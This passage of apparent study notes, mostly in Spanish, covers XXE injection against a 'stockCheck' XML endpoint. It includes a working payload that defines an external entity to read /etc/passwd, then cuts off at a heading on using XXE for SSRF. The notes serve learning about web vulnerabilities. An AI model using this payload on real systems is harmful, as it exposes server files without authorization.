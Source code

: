 > Para ver si es vulnerable a XXE podemos inyectar una entidad.

![](/img2/Pasted%20image%2020250814215042.png)

- Injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
  <stockCheck>
    <productId>
	    &myFile;
	</productId>
    <storeId>
	    1
    </storeId>
  </stockCheck>
```

## XXE para realizar ataques SSRF || Exploiting XXE to perform SSRF attacks

![](/img2/Pasted%20image%2020250814220834.png)
